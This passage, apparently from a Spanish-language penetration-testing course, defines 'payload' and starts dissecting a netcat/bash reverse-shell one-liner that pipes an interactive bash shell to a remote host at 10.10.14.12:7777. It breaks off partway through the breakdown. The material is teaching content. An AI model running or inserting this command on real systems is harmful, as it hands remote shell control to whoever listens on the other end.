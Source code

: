 ¿Alguna vez has enviado un email o mensaje de texto a alguien?

Probablemente la mayoría de nosotros lo hemos hecho. El mensaje que enviamos en un email o mensaje de texto es el payload del paquete mientras se envía a través del vasto Internet. En computación, el payload es el mensaje destinado. En seguridad de la información, el payload es el comando y/o código que explota la vulnerabilidad en un OS y/o aplicación. El payload es el comando y/o código que realiza la acción maliciosa desde una perspectiva defensiva. Como vimos en la sección de reverse shells, Windows Defender detuvo la ejecución de nuestro payload de PowerShell porque fue considerado código malicioso.

Ten en cuenta que cuando entregamos y ejecutamos payloads, al igual que cualquier otro programa, le damos al computador objetivo instrucciones sobre lo que necesita hacer. Los términos "malware" y "malicious code" romantizan el proceso y lo hacen más misterioso de lo que es. Cada vez que trabajemos con payloads, desafiémonos a nosotros mismos a explorar lo que el código y los comandos realmente están haciendo. Empezaremos este proceso desglosando las líneas de comando con las que trabajamos anteriormente:

---

## One-Liners Examined

### Netcat/Bash Reverse Shell One-liner

```r
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f
```

Los comandos anteriores componen una línea de comando común emitida en un sistema Linux para servir una Bash shell en un socket de red utilizando un listener de Netcat. Usamos esto anteriormente en la sección de Bind Shells. A menudo se copia y pega, pero no siempre se entiende. Desglosemos cada parte de la línea de comando:

### Remove /tmp/f

```r
rm -f /tmp/f; 
```

Elimina el archivo `/tmp/f` si existe, `-f` hace que `rm` ignore los archivos inexistentes. El punto y coma (`;`) se usa para ejecutar el comando secuencialmente.

### Make A Named Pipe

```r
mkfifo /tmp/f; 
```

Crea un [FIFO named pipe file](https://man7.org/linux/man-pages/man7/fifo.7.html) en la ubicación especificada. En este caso, /tmp/f es el FIFO named pipe file, el punto y coma (`;`) se usa para ejecutar el comando secuencialmente.

### Output Redirection

```r
cat /tmp/f | 
```
